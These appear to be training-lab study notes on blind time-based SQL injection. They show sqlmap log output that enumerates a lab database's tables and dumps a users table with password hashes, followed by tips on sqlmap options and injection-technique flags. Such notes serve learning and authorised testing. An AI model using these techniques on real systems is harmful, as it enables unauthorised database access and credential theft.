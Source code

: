 ```
[02:23:52 PM] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[14:25:26] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[14:25:26] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)

[14:25:47] [INFO] adjusting time delay to 2 seconds due to good response times
offsec
[14:27:01] [INFO] fetching tables for database: 'offsec'
[14:27:01] [INFO] fetching number of tables for database 'offsec'

[02:27:01 PM] [INFO] retrieved: 2
[02:27:11 PM] [INFO] retrieved: customers
[02:29:25 PM] [INFO] retrieved: users
[14:30:38] [INFO] fetching columns for table 'users' in database 'offsec'
[02:30:38 PM] [INFO] retrieved: 4
[02:30:44 PM] [INFO] retrieved: id
[02:31:14 PM] [INFO] retrieved: username
[02:33:02 PM] [INFO] retrieved: password
[02:35:09 PM] [INFO] retrieved: description
[14:37:56] [INFO] fetching entries for table 'users' in database 'offsec'
[14:37:56] [INFO] fetching number of entries for table 'users' in database 'offsec'
[02:37:56 PM] [INFO] retrieved: 4
[02:38:02 PM] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[14:38:24] [INFO] adjusting time delay to 1 second due to good response times
this is the admin
[02:40:54 PM] [INFO] retrieved: 1
[02:41:02 PM] [INFO] retrieved: 21232f297a57a5a743894a0e4a801fc3
[02:46:34 PM] [INFO] retrieved: admin
[02:47:15 PM] [INFO] retrieved: try harder
[02:48:44 PM] [INFO] retrieved: 2
[02:48:54 PM] [INFO] retrieved: f9664ea1803311b35f

...
```

Since we're dealing with a blind time-based SQLi vulnerability, the process of fetching the entire database's table is quite slow, but eventually we manage to obtain all users' hashed credentials

Can specify specific databases, with `-D`
+ For example: `-D wordpress`

Can specify specific table with `-T`
+ For example: `-T wp_users`

+ When errors happen with commands on the same target, should flush the session with `--flush-session` 
+ Can try another flush technique with `--technique=T` for blind based SQL injections
	+ See the injection types for each:
		- B: Boolean-based blind
		- E: Error-based
		- U: Union query-based
		- S: Stacked queries
		- T: Time-based blind
		- Q: Inline queries
